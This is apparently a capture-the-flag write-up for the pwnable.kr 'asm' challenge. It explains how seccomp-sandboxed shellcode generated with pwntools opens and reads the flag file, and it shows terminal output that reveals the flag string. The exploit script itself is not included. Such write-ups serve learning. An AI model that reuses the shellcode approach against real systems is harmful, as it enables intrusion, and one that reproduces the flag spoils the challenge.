 # Toddler's Bottle - asm

> Mommy! I think I know how to make shellcodes

Having a look at the source code, I think the program genuinly does what it says it does: run given x64-code. I had to quickly read up on seccomp on the man page though. I don't think the sandbox should really be an issue: everything we need to open and read the flag file seems to be allowed (lines 19-24).

Writing the shellcode manually would be a pain. Luckily, pwntools has these useful [shellcraft](https://docs.pwntools.com/en/stable/shellcraft.html) utilities for generating shellcode. See `exploit.py` for my code.

```
┌──(kali㉿kali)-[~/Desktop]
└─$ python exploit.py
[+] Connecting to pwnable.kr on port 2222: Done
[*] asm@pwnable.kr:
    Distro    Ubuntu 16.04
    OS:       linux
    Arch:     amd64
    Version:  4.4.179
    ASLR:     Enabled
[+] Connecting to localhost:9026 via SSH to pwnable.kr: Done
Mak1ng_shelLcodE_i5_veRy_eaSy
lease_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooo
[*] Closed remote connection to localhost:9026 via SSH connection to pwnable.kr
```
